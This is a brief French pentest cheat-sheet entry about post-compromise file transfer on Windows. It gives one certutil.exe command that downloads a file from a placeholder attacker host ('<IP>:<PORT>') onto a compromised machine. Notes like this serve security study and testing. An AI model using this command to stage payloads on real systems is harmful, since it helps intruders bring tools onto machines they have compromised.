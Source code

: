 ```yaml
---
description: Permet de télécharger un fichier depuis une machine Windows compromise
---
```


# certutil.exe

```
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<file>" C:\<PATH>\<FILE>
```

Le répertoire de destination doit exister.
